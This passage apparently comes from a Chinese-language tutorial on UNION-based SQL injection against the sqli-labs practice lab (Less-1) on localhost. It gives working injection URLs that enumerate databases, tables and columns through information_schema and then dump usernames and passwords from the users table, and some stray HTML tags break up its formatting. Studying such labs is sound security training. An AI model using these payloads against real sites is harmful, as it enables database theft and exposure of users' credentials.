 我们还可以通过union注入获得更多的信息。

```
// 获得所有的数据库 
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(schema_name),3 from information_schema.schemata#
​
// 获得所有的表
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(table_name),3 from information_schema.tables#
​
// 获得所有的列
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(column_name),3 from information_schema.columns#
​
#获取当前数据库中指定表的指定字段的值(只能是database()所在的数据库内的数据，因为处于当前数据库下的话不能查询其他数据库内的数据)
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(password),3 from users%23
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01512b2827194b3ad9.png)

当我们已知当前数据库名security，我们就可以通过下面的语句得到当前数据库的所有的表

```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' #</code>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0152380ee1644a9eaf.png)</pre>
我们知道了当前数据库中存在了四个表，那么我们可以通过下面的语句知道每一个表中的列
<pre class="pure-highlightjs"><code class="hljs sql">http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' #
```

如下，我们可以知道users表中有id，username，password三列

[![](https://p1.ssl.qhimg.com/t01b4edde30398d71e8.png)](https://p1.ssl.qhimg.com/t01b4edde30398d71e8.png)

我们知道存在users表，又知道表中有 id ，username， password三列，那么我们可以构造如下语句

```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(id,'--',username,'--',password),3 from users #
```

我们就把users表中的所有数据都给爆出来了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e0f60631a5efb741.png)
